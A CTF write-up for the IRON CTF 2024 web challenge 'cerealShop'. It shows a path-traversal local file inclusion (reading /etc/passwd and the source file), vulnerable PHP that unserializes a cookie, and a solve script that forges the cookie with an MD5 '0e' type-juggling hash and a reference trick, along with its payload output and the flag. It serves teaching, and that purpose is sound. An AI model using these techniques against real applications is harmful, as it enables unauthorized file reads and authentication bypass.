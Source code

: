 # IRON CTF 2024

# **WEB/cerealShop Writeup**

![{26983634-0463-4250-8CF5-F7E9F2125201}.png](26983634-0463-4250-8CF5-F7E9F2125201.png)

Upon opening the provided challenge link, we are presented with a site that looks like this:

![{986F6527-F0C3-4DC3-BC1B-4C3CDB7FA80C}.png](986F6527-F0C3-4DC3-BC1B-4C3CDB7FA80C.png)

The site has an input field we can test, but it lacks functionality. Upon checking the source code of the site, we find two hints:

![{62256278-489B-4734-91BB-7AC18B746D30}.png](62256278-489B-4734-91BB-7AC18B746D30.png)

1. We have a "?file" parameter where we can pass any filename. If the provided file is available, we can see its contents.
2. There is a hidden base64 string in the HTML code within a paragraph tag. When decoded, it provides a hint: .  “**I left a piece of code in a file called source , I bet you can't reach it**”

Using these hints, we can now test for a Local File Inclusion (LFI) vulnerability. First, we'll attempt to read the /etc/passwd file. 

![{CFE5FBAE-B64F-40B3-B0FC-DFFD0F7A4EF9}.png](CFE5FBAE-B64F-40B3-B0FC-DFFD0F7A4EF9.png)

Yes, the application is vulnerable to Local File Inclusion (LFI). Using this vulnerability, we can read the source file. If we pass

?file=../../../source in the URL, we get the PHP source code of the site.

![{75FA7F7B-A5B6-4F36-ABF0-A336724DBE32}.png](75FA7F7B-A5B6-4F36-ABF0-A336724DBE32.png)

```php
<?php
$file = $_GET['file'];
includeFile($file);
$FLAG = getenv('FLAG');
class Admin
{
	public $is_admin = "";
	public $your_secret = "";
	public $my_secret = "";
	public function __construct($in, $ysecret, $msecret)
	{
		$this->is_admin = md5($in);
		$this->your_secret = $ysecret;
		$this->my_secret = $msecret;
		}
	public function __toString()
	{
		return $this->is_admin;
	}
}
if (isset($_COOKIE['can_you_get_me'])) {
	try {
		$f = base64_decode($_COOKIE['can_you_get_me']);
		if (!$f) {
			throw new Exception("");
		}
		$unout = unserialize($f);
		if (!$unout) {
			throw new Exception("\n wrong cookie");
		}
		$unout->my_secret = $FLAG;
		if ($unout->is_admin == 0 && $unout->your_secret === $unout->my_secret) {
				echo "Okay here is your flag:", $FLAG;
		}
		else{
				echo "no ";
		} 
		catch (Exception $e) {
				echo "Error: " . $e->getMessage();
			}
	}
	?>
```

If you examine the code carefully, you can see that the flag is printed only when we satisfy two conditions:

1. is_admin should be equal to 0
2. your_secret should be equal to my_secret

To achieve this ,

1. Find a value that, when converted to an MD5 hash, starts with "0e". This exploits PHP's weak comparison ($unout->is_admin == 0), leading to type juggling. 
2. To bypass the second condition, use the reference operator like this: 

**$this->your_secret = &$this->my_secret;**

## Solve script:

```php
<?php
class Admin{
    public $is_admin="";
    public $your_secret="";
    public $my_secret="";
    public function __construct($in,$ysecret,$msecret){
        $this->is_admin=md5($in) ;
        $this->your_secret = &$this->my_secret;
	}
    public function __toString(){
    	return $this->is_admin;
    }
}

$o=new Admin('aabg7XSs','anything','anything');
echo base64_encode(serialize($o));

?>
```

```php
**output:**
Tzo1OiJBZG1pbiI6Mzp7czo4OiJpc19hZG1pbiI7czozMjoiMGUwODczODY0ODIxMzYwMTM3NDA5NTc3ODA5NjUyOTUiO3M6MTE6InlvdXJfc2VjcmV0IjtzOjA6IiI7czo5OiJteV9zZWNyZXQiO1I6Mzt9
```

Now, set this as a cookie named "can_you_get_me", and you'll obtain the flag. :)

![{E4CC946B-CE4F-4F41-8ECD-340FBE3EA9AE}.png](E4CC946B-CE4F-4F41-8ECD-340FBE3EA9AE.png)

 **flag: ironCTF{D353r1411Z4710N_4T_1T5_B35T}**